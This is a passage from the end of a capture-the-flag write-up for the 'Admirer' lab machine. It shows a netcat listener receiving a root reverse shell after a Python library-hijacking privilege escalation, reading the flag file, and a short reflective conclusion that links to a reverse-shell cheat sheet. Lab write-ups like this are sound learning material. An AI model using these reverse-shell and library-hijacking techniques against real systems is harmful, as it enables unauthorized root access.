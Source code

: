 Running backup script in the background, it might take a while...
waldo@admirer:~/shutil$
{% endhighlight %}

Our listener gets a response and we can go for root:

{% highlight bash %}
listening on [any] 4444 ...
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.187] 43364
whoami
root
pwd
/home/waldo/shutil
ls
shutil.py
cd /root
ls
root.txt
cat root.txt
bc------------------------------
{% endhighlight %}

## Conclusion

This box was all about enumeration. I also learned about Privilege Escalation via Python Library Hijacking I understand another way would have been [Pentest Monkey's](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) Python Reverse Shell. I think the time I spent doing scans and enumerating the website seemed realistic, although people don't so obviously leave their credentials lying around. This box also gets you to work with SQL databases which admittedly I had to do some re-learning to get right.

